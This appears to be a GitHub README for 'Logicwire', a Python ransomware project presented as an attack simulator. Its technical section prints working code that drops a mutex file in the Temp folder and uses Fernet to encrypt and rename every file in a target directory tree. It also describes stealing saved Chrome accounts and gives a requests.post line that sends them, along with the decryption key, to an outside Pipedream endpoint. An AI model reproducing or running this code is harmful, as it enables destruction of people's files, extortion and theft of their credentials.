 <img src="https://media.discordapp.net/attachments/768928242467340328/811300430985560124/fond-geometrique-3d-noir-low-low-noir_79145-393.jpg"><br><br><img src="https://forthebadge.com/images/badges/built-with-love.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/made-with-python.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/fuck-it-ship-it.svg" height="40" length="40">
# Logicwire
Logicwire is a disguised version of ransomwares. It allows to simulate an attack, without being very dangerous.
# Victim POV
I put as unique folder the pit named "fichiers" because I did not have a windows vm.<br>
https://www.youtube.com/watch?v=y02J6HjoihA&feature=youtu.be&ab_channel=%26
# Attacker POV
<img src="https://media.discordapp.net/attachments/768928242467340328/811308563690684486/unknown.png?width=1154&height=670"><br>
<img src="https://media.discordapp.net/attachments/768928242467340328/811308892696739840/unknown.png?width=1443&height=386">
# File decryption
<img src="https://cdn.discordapp.com/attachments/768928242467340328/811321319668056135/Action_16-02-2021_20-23-10_online-video-cutter.com.gif"><br>
# Technical operation
### Avoid double encryption
It installs a .tmp signature (mutex) in the Temp cache to avoid double encryption of files. And check if it is there, if he is present he only run the ransomware GUI.
```python3
tmp = str(tempfile.gettempdir())
signature = "cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp"
path = os.path.dirname(os.path.abspath(signature))
tmp_files = []
for root, dirs, files in os.walk(tmp):
        for file in files:
            tmp_files.append(file)

if signature in tmp_files:
        main()
else:
        file = open("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp", "w").write("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5")
        shutil.move(path + "\\" + signature, tmp + "\\" + signature)
        write_key()
        key = load_key()
```
### Symmetric encryption
A key is generated randomly with Fernet.generate_key() and use it to encrypt all files recursively, including the subdirectories etc...
```python3
f = Fernet(key)
subdirs = [x[0] for x in os.walk(dir)]
for dirdir in subdirs:
        for filename in glob.glob(os.path.join(dirdir, '*.*'), recursive=True):
            with open(filename, "rb") as file:
                file_data = file.read()
                encrypted_data = f.encrypt(file_data)
            with open(filename, "wb") as new:
                new.write(encrypted_data)

            extension = str(filename).split(".")[1]
            name = str(''.join(random.SystemRandom().choice(string.ascii_uppercase + string.digits) for _ in range(10)))
            os.rename(filename, dirdir + "/" + name + "." + extension)
```
### Accounts recovery
It steals the accounts by connecting to the chrome database and sends them back to a pipdream via POST API, then redirects them to the decided webmail.
```python3
r = requests.post("https://en54ygy2ikv5dtk.m.pipedream.net", data={"key": keydecrypt, "logs": rez}, headers={'Content - Type': 'application / json'})
```
